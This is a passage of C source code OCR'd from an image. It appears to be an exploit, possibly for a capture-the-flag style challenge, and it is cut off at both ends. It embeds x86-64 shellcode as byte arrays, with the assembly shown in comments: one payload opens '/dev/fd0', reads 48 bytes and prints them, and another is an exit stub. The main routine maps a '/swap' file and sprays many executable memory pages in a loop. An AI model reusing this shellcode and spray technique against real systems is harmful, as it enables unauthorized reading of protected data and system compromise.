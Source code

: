 ```c
 
mov rdi, rax 
xor rax, rax 
mov rsi, rsp 
mov rdx, 0x30 
syscall 
 
mov rax, 1
mov rdi, 1
syscall

mov rax, 60
mov rdi, 1
syscall
*/
char sc[] = {0x48, 0xc7, 0xc0, 0x2, 0x0, 0x0, 0x0, 0x48, 0x31, 0xff, 0x57, 0x48,
            0xbf, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x66, 0x64, 0x30, 0x57, 0x48,
            0x89, 0xe7, 0x48, 0x31, 0xf6, 0xf, 0x5, 0x48, 0x89, 0xc7, 0x48,
            0x31, 0xc0, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc2, 0x30, 0x0, 0x0, 0x0,
            0xf, 0x5, 0x48, 0xc7, 0xc0, 0x1, 0x0, 0x0, 0x0, 0x48, 0xc7, 0xc7,
            0x1, 0x0, 0x0, 0x0, 0xf, 0x5, 0x48, 0xc7, 0xc0, 0x3c, 0x0, 0x0, 0x0,
             0x48, 0xc7, 0xc7, 0x1, 0x0, 0x0, 0x0, 0xf, 0x5};

/*
movsxd  rdi, edi
mov     eax, 0E7h
syscall
mov     edx, 3Ch
mov     rax, rdx
syscall
*/
char needed[] = {0x48, 0x63, 0xff, 0xb8, 0xe7, 0x0, 0x0, 0x0, 0xf, 0x5, 0xba, 0x3c, 0x0, 0x0, 0x0, 0x48, 0x89, 0xd0, 0xf, 0x5};
void *map_list[MAP_LIST_SIZE] = {0};

int main()
{
    int fd = open("/swap", O_RDWR);
    if (fd == -1) {
        printf("open failed\n");
        exit(1);
    }
    if (ftruncate(fd, MB_10) == -1) {
        printf("ftruncate failed\n");
        exit(1);
    }
    unsigned char *swap = mmap(NULL, MB_10, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);

    if (swap == NULL) {
        printf("mmap failed\n");
        exit(1);
    }

    for (int i = 1; i <= 0x1000; i++) {
        printf("Round %d\n", i);
        map_list[i-1] = mmap(NULL, PAGE_1MB_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC,
                 MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        memset(map_list[i-1], 'A', PAGE_1MB_SIZE);
        
        if (msync(swap, MB_10, MS_SYNC) == -1) {
            printf("ftruncate failed\n");
            exit(1);
        }
```